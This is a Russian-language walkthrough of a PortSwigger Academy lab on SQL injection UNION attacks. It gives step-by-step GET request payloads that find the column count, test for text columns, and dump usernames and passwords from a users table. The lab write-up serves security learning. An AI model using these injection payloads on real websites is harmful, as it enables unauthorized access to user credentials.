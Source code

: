 Зайдем на любую из страниц, и найдем данный запрос в `Proxy` -> `HTTP history` и отправим данный запрос в `Repeater`

На следующем шагу определим колиячество столбцов в таблице
```
GET /filter?category=Lifestyle'+UNION+SELECT+NULL,NULL--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/5.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20data%20from%20other%20tables/pics%20for%20walktrough/1.png)

Определим что оба данных столбца имею тектовый формат отображения
```
GET /filter?category=Lifestyle'+UNION+SELECT+'a','a'--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/5.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20data%20from%20other%20tables/pics%20for%20walktrough/2.png)

Так как нам известно по заданию, что существует таблица `users`, в которой есть столбцы `username`, `password`, самое время посмотреть что там внутри
Обратимся к таблице users и уберем из запроса `Lifestyle` (чтобы нужные столбцы не смешивались с данными с таблицы `Lifestyle`)
```
GET /filter?category='+UNION+SELECT+username,password+FROM+users--
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/1.%20SQL%20injection/5.%20SQL%20injection%20UNION%20attack%2C%20retrieving%20data%20from%20other%20tables/pics%20for%20walktrough/3.png)

Тем самым, мы узнали логины и пароли из таблицы `users`
